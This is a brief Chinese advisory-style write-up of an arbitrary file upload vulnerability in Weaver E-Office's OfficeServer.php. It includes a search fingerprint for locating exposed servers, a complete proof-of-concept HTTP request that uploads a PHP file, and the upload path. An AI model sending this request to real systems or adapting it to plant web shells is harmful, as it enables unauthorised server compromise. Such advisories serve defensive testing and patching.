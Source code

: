 # 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

# 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

## 漏洞影响

```
泛微OA E-Office
```

## 网络测绘

```
"eoffice10"
```

## 漏洞复现

登录页面

![image-20221008102546649](/images/202210081025897.png)

验证POC

```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![image-20221008102607520](/images/202210081026579.png)

文件上传位置

```
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![image-20221008102621829](/images/202210081026917.png)

